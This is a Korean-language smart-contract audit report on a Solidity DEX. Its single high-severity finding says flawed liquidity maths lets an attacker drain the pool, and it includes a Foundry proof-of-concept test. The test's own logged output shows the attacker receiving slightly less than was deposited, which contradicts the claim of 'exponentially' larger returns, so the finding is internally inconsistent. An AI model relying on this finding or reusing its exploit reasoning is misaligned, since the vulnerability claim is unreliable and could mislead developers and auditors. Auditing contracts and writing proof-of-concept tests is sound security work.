 # RW50cm9weTExMTA=

## Scope

<table>
  <tr>
    <th>Name</th>
    <td>Dex Security Audit</td>
  </tr>
  <tr>
    <th>Target / Version</th>
    <td>Git Repository (<a href="https://bit.ly/4dYIKFm" target="_blank">Dex_solidity</a>): commit <mark>fb4723cf0af9663378466e639eb7f8eabab19e7d</mark> (<mark>main</mark> branch)</td>
  </tr>
  <tr>
    <th>Application Type</th>
    <td>Smart contracts</td>
  </tr>
  <tr>
    <th>Lang. / Platforms</th>
    <td>Smart contracts [Solidity]</td>
  </tr>
</table>

## Findings

### #1 `001` The overall calculation of metrics for the CPMM DEX is incorrect

|ID|Summary|Severity|
|:---:|-------|:---:|
|001|*CPMM DEX* 로서의 전반적인 Calculation 오류|High|

#### Description

일반적인 *DEX*를 구현 할 때, *Stable Coin*의 경우 *CSMM*, 기타 일반 토큰의 경우 *CPMM* 방식으로 구현하게 되는데, 이를 위한 *Calculation* 과정이 잘못 구현되어 풀 내 자산 탈취가 가능함. 가령, `addLiquidity()` 함수 내에서, *Pool* 내 유동성이 존재하지 않을 때는, 두 자산의 각각의 초기 예치자산 수량 곱의 제곱근으로 LP 토큰의 유동성이 계산되고, 이후 추가적인 유동성이 공급될 때는 별도의 계산으로 처리되는 데, 이 때의 계산이 적절하지 않음. 이에, 아래와 같이 공격자가 유동성 예치 후에 즉시 예치 해제시, 자신이 예치한 유동성보다 기하급수적으로 많은 토큰을 돌려 받음.

```solidity
function testAddLiquidityAndThenRemoveLiquidity() external {
    uint256 lpReturn = dex.addLiquidity(1000 ether, 2000 ether, 0);
    emit log_named_uint("lpReturn", lpReturn); // lpReturn: 1414213562373095048801

    // Assume that Address 1 belongs to the attacker.
    vm.prank(address(1));
    uint256 lpReturnByAddressOne = dex.addLiquidity(99 ether, 200 ether, 0);
    emit log_named_uint("lpReturnByAddressOne", lpReturnByAddressOne); // lpReturnByAddressOne: 140007142674936409831

    vm.prank(address(1));
    (uint256 xReceived, uint256 yReceived) = dex.removeLiquidity(140007142674936409831, 0, 0);
    emit log_named_uint("xRecieved", xReceived); // xRecieved: 98999999999999999999
    emit log_named_uint("yReceived", yReceived); // yReceived: 198180163785259326660
}
```

#### Impact

**High**

공격자가 *Pool* 내 자산을 탈취할 수 있음.

#### Recommendation

*CPMM DEX* 구현 간에 `K`(*Constant Value*) 값의 도입 등, 전반적인 *Pool* 내 자산 비율 *Calculation* 정교화 및 고도화 요망.